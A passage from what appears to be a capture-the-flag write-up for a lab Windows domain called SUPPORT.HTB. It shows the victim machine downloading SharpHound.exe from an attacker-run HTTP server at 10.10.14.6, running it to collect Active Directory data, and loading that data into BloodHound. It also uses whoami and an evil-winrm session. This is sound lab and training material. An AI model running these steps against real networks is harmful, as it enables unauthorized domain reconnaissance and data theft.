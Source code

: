 Identify if the user is a member of any groups:

```powershell
whoami /groups
```

Going back to our attacker's machine, we need to install Bloodhound to identify possible attack paths:

```bash
sudo apt install -y neo4j 
sudo neo4j start
```

Download Bloodhound from here:

```bash
wget https://github.com/SpecterOps/BloodHound-Legacy/releases/download/v4.3.1/BloodHound-linux-x64.zip
```

Unzip the file and run Bloodhound:

```bash
./BloodHound --no-sandbox
```

Need to change the password at http://localhost:7474:
- creds: neo4j:[insert your password]

We will upload sharphound.exe to the victim's machine to gather AD data.

BloodHound > Collectors 

Set up an HTTP server:

```bash
python3 -m http.server
```

Now in the evil-winrm session of the victim's machine, fetch the SharpHound.exe:

```powershell
curl -o SharpHound.exe http://10.10.14.6:8000/SharpHound.exe
```

or open Evil-WinRM in the directory of Bloodhound > Collectors and upload SharpHound.exe.

Now execute to the victim's once it is uploaded:

```powershell
./SharpHound.exe
```

It will gather the data and generate a .zip file that we need to download into attacker's machine.
Re-open Evil-WinRM into the home folder so permissions won't mess up with the download.

Once downloaded, we need only drag and drop the zip file into the BloodHound window to load the acquired data.

We saw that support user is a member of SHARED SUPPORT ACCOUNTS@SUPPORT.HTB which has a direct link with the DC.SUPPORT.HTB
